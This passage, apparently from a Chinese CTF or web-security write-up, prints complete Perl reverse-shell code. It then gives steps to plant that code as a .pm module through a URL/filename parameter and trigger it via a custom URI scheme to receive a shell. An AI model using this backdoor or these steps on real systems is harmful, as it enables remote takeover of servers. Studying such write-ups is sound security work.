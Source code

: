 ```perl

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();    
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
    print "Content-Length: " . length($global_page) . "\r Connection: close\r Content-Type: text\/html\r\n\r\n" . $global_page;
}
```
然后请求```/?url=自己的vps的perl后门路径&filename=URI/pr0ph3t.pm```
在沙箱文件夹的URI目录下写入反弹shell的pm文件
最后监听某个端口后请求```/?url=pr0ph3t://pr0ph3t.com&filename=xxx```即可收到shell
![shell](http://upload-images.jianshu.io/upload_images/6949366-4ee42dbdac9fdbbb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 第二个是perl的open命令有可能会导致命令执行
> https://mailman.linuxchix.org/pipermail/courses/2003-September/001344.html
>
> Executing Programs with "open"
>
> In addition to what we saw last week, the "open" command has one more very
powerful application: it allows you to execute a command, send input and
receive output.